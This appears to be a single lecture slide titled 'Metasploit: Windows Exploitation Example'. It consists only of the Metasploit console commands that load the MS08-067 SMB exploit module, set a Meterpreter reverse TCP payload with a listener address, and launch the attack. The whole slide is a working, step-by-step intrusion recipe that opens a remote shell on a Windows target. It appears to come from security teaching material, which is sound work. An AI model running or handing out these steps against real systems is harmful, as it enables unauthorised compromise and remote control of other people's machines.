

# MEtasploit
Windows Exploitation Example

search windows/smb
info windows/smb/ms08_067_netapi
use windows/smb/ms08_067_netapi
show payloads
set payload windows/meterpreter/reverse_tcp
show options
set lhost 192.168.20.22 (set other options as well)
exploit